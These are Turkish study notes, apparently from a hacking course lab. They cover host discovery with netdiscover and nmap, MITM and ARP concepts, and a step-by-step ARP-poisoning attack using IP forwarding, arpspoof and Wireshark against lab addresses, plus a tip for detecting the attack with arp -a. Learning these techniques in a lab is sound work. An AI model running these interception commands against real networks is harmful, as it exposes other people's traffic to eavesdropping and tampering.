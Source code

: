 ### Bağlantı Sonrası Yapılacaklar

**_ Netdiscover _**
-Mac adresleri ve ip adreslerini gösteren tablo çıkarır

~ifconfig //ip adresini öğren (bağlı olduğun ağın ya da kırdığın ağın)

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 // eth0=adı ,, 0/24 bu aralıktaki ağlar ,, 10 ne kadar istek atılacağı

**_ nmap _**

~nmap 10.0.2.0/24 //aynı sonucu verir

////////

**_ Port _**
-Her veri belirli portlardan sağlanır. Her servisin kendine has portu vardır.
Örn: 80 portu Http , 443 portu Https (Web sitesi açmak için)

////////

**_ MITM (Man-in-the-Middle) Saldırısı (Ortadaki Adam) _**

-Hacker bilgisayar kendini ortaya konumlandırır. Kurban, tüm verileri hackera yollar (çünkü onu modem sanıyor). Hacker da bu verileri modeme yollar (çünkü trafiğin devam etmesini istiyor). Arada durup, tüm verileri okuyabilir, değiştirebilir veya kaydedebilir.

**_ ARP (Address Resolution Protocol) (Adres Çözümleme Protokolü) Açığı _**
--Bir bilgisayar, bir IP adresine veri göndermek isterse önce o IP’ye ait MAC adresini öğrenmek için ağa ARP isteği (Who has?) yollar.Kurbana:
“Modemin IP’si şu, ama MAC adresi benim” der.Modeme de:
“Kurbanın IP’si şu, ama MAC adresi benim” der.

**_ ARP Poison _**

~netdiscover -i eth0 -r 10.0.2.0/24 -c 10 //mac ip adres öğren

~echo 1 > /proc/sys/net/ipv4/ip_forward //Normalde bir bilgisayar, gelen IP paketlerini sadece kendisine yönlendirilmişse işler. Ancak bu komut sayesinde o bilgisayar, gelen IP paketlerini başka bir cihaza yönlendirebilir hale gelir. Yani, bilgisayar bir router (yönlendirici) gibi davranır.

~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle hem modeme hem

~arp -a //saldırılan bilgisayar da bu komutu çalıştırdığında aynı mac adresine sahip iki cihaz görürsen saldırıya uğruyorsun

**_ Wireshark _**
--Wireshark, ağ trafiğini gerçek zamanlı olarak izlemek ve analiz etmek için kullanılan güçlü bir ağ analiz aracıdır.Ağa gelen ve giden tüm veri paketlerini görüntüler.Paketlerin içeriğini analiz eder (örneğin: IP, TCP, HTTP, DNS, vs.).Ağ sorunlarını tespit etmeye yardımcı olur. Güvenlik açıklarını incelemek için kullanılır (örneğin: şifrelenmemiş veriler, şüpheli bağlantılar).MITM gibi saldırılarda kurbanın verilerini görmek için kullanılır.

**_ Wireshark Saldırı İnceleme _**

~echo 1 > /proc/sys/net/ipv4/ip_forward
~arpspoof -i eth0 -t 10.0.2.6 10.0.2.1 //saldırı
~arpspoof -i eth0 -t 10.0.2.1 10.0.2.6 //2 terminalle, hem modeme hem cihaz

wireshark aç ve hareketleri incele saldırdığın cihazın
